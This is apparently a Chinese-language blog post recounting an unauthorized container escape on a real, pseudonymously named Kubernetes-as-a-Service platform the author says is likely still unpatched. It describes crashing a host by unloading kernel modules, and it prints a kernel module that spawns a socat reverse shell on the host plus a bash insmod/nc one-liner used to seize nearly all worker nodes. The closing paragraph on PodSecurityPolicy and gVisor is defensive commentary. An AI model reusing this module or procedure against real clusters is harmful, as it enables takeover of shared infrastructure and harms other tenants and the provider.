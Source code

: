 &nbsp; &nbsp; &nbsp; &nbsp;本文谨记一次container escape，文中出现的服务提供商名称为化名（估计他们还没修洞呢）TL;DR：container不是sandbox，运行不可信container最好增加安全措施。

&nbsp; &nbsp; &nbsp; &nbsp;前些时日找到了一个Kuberntes as a Service平台 - ekoott，为用户提供隔离的namespace运行任意manifest，这样的平台现在似乎还挺多的，不过这家给的quota比较多，我将大部分non-critical的服务迁移上了他们的集群。同时群友JerryXiao想到了使用PersistentVolume来运行一个chroot的Arch，变相将container当vps用的操作。（PV挂载选项有nosuid，故而他又使用ssh模拟了一个sudo，效果拔群）

&nbsp; &nbsp; &nbsp; &nbsp;得 寸 进 尺，JerryXIao又提出了在container里跑wireguard的想法，使用usermode linux配合slirp，强行套娃。这一方案虽然可以使用，但是年久失修的slirp难以编译~~需要C98~~。虽然不报太大希望，我尝试了在Pod的securityContext中添加privileged，毫无疑问，失败了，但是我们还有capabilities可以尝试。~~CAP_SYS_ADMIN~~ CAP_NET_ADMIN居然被PodSecurityPolicy允许了，那意味着我们已经可以使用usermode的wireguard了。手动二分发现，我还可以获得的cap有：CAP_SYS_MODULE，Load and unload kernel modules！~~很好那我把所有的module unload掉好了~~，初步的尝试就构成了DoS，干掉了一台宿主机。这一cap能干的还有load module，这为我们的container escape带来了可能，[How I Hacked Play-with-Docker and Remotely Ran Code on the Host](https://www.cyberark.com/threat-research-blog/how-i-hacked-play-with-docker-and-remotely-ran-code-on-the-host/)一文中描述了一种攻击手段，利用kernel module调用usermode helper，以获得宿主机上的reverse shell。文中的攻击较为复杂，涉及到探测内核的*vermagic*等，我们直接uname -a然后去ubuntu那里偷了几个header包。随后便是模块的构造了，初步的探测发现宿主机上有socat，极大方便了reverse shell的建立：

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/sched/signal.h>
#include <linux/nsproxy.h>
#include <linux/proc_ns.h>

MODULE_LICENSE("GPL");

static char *host = "";

module_param(host, charp, 0000);
MODULE_PARM_DESC(host, "");

static int __init escape_start(void)
{
    static char *envp[] = { "PATH=/usr/sbin:/usr/bin:/sbin:/bin", NULL };
    char *argv[] = { "/usr/bin/socat", "exec:/bin/bash -li,pty,stderr,setsid,sigint,sane", strcat(host,",forever", NULL };
    call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
    return 0;
}

module_init(escape_start);
```

之后我们编写了如下的自动化提权，构建容器后建立Deployment，掌握了几乎所有worker的控制权。

```bash
insmod /root/nsescape.ko $(ip -br a s dev eth0 | awk '{ print $3 }' | sed "s/\/.*/:1080,forever/;s/^/host=tcp:/")
nc -l -p 1080
```

ekoott使用的k8s distro是GKE，查阅[文档](https://cloud.google.com/kubernetes-engine/docs/how-to/pod-security-policies)发现PodSecurityPolicy尚在**Beta**阶段，看来ekoott已经做出了保护自己的基础设施的努力，但是很遗憾的失败了。container不是sandbox，随着这样的KaaS平台的增多，越来越多的infra将面临来自不可信的容器的挑战。这次ekoott所暴露的漏洞是human error，更加严格的PodSecurityPolicy本可以避免这一切，但是由宿主和容器共用的内核其实是一个更大的攻击面，或许[gvisor](https://gvisor.dev/)这样以安全为首要目的容器运行时能缓解一些vulnerability，但是defense-in-depth将会是永远的话题。